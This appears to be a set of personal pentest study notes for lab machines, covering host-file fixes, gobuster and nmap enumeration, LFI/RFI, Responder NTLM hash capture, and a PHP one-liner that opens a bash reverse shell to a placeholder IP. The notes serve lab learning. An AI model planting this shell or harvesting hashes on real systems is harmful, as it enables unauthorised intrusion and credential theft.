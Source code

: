 While doing the pentests below, there were times that a web server was expecting a certain DNS entry that didn't exist in my computer. To fix this, it only requires a change to the `/etc/hosts` file. e.g.

```
# /etc/hosts
10.10.10.3  my.domain.com
```

Subdomain enumeration can be completed with `gobuster vhost --apend-domain -u <domain> -w ./Discovery/DNS/subdomains-top1million-5000.txt`


### Pentest Essentials
#### Reconnaissance and enumeration
When approaching a box: 
* `nmap` everything! 
* `gobuster` is useful for site, path and virtual host enumeration
    * `dns` for subdomain enumeration
    * `dir` discovers directories/files. `-x` allows you to specify a kind of file. e.g. `gobuster dir -x php -u $TARGET -w ./Discovery/Web-Content/common.txt`
    * `vhost` for virtual hosts and virtual host subdomains
* `wappalyzer` gives an analysis of a websites tech


#### Local File Inclusion/Remote File Inclusion

* LFI is where the server is tricked into serving a local file not intended for the website. This is achievable when the site doesn't properly sanitize filepath inputs. You could try using relative or absolute paths to find a file. In one of the boxes, we were able to obtain LFI via an improper use of PHPs `include()` function
* RFI is where a server tries to connect to some remote machine to retrieve a file. Windows, by default will try and resolve UNC paths using SMB. For RFI to work in PHP, PHP must have `allow_url_include` enabled

#### Responder

A useful tool to harvest NTLM hashes. It can poison resolution protocols to trick computers into thinking the attacker's machine is the correct server. In the responder challenge, we obtained the NTLM hash by exploiting the web server's trust in our authority as an SMB server. It willingly handed over the hash!

#### Simple reverse shell

A simple reverse shell command in PHP

```php
<?php system("bash -i >& /dev/tcp/<IP>/1337 0>&1")?>
```



---

## Appointment  
*Apache, MariaDB, PHP, SQL, SQLi*

